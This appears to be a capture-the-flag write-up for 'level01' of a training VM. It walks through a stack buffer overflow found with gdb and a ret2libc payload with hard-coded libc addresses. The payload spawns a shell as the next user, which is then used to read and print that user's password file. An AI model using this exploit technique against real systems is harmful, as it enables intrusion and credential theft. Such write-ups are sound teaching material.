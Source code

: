 # Level01

## Setup

We find a binary file at the root of the user **`level01`** named *`./level01`*.

And we copy the file with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4242 level01@<vm_ip>:/home/users/level01/level01 .
```

### Hex-Rays

From now on, we will mainly use an online decompiler explorer.
It will allow us to get an approximate c version of the program with less effort.

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Binary

We first tried to run the binary.
It asks for an admin login.
After trying a few random inputs, we only get an output stating "nope, incorrect username...", and it returns.

Time to disassemble!

### Source

Here we get to use dogbolt to investigate.

![dogbolt level01](image.png)

From this code we can see two things:
- the admin login should be "dat_wil"
- whatever the password, we get "nope, incorrect password ...\n"

But, the developper reads a 100 characters in a 64 char long space on the stack.
A buffer overflow is possible.

### Overflow

After writing "dat_wil" as login, we try sending a very long string for the password.
We get a segmentation fault.
Say no more, we send a pattern.

```bash
gdb level01
> b main
> r < <(python -c "print 'dat_wil\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
<<< Program received signal SIGSEGV, Segmentation fault.
0x41306141 in ?? ()
```

And `0x41306141` is the part of the pattern at an offset of 80.
We'll try to use a ret2libc technique.

We need:
- an address pointing to a string "/bin/sh" ***0xf7fcc000 + 15d7ec***
```bash
	> b main
	> r
	> info proc map
<<< Start Addr   End Addr       Size     Offset objfile
<<< ...
<<< 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
<<< ...
	> strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
<<< 15d7ec /bin/sh
```
- the address of `system`
```bash
	> p system
<<< $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- the address of `exit`
```bash
	> p exit
<<< $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

We got everything.

When the segmentation fault happened, it was at the offset 80.
It means that 80 bytes after the start of the overflowed buffer, is stored the return address of the function `main()`.
If we change this address to `system()`, instead of continuing the execution of the code which called `main()`, we'll read the instructions of `system()`.
Therefore, if we set the parameter of `system()` to "/bin/sh", the program will open a shell as user=level02.

The pointer to `exit()` is here so `system()` returns to a proper exit of the program.

### Solution

Connect with `ssh -p 4242 level01@<vm_ip>`
Enter the password `level01`

```bash
python -c "print 'dat_wil\n' + 'A'*80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload01
cat /tmp/payload01 - | ./level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

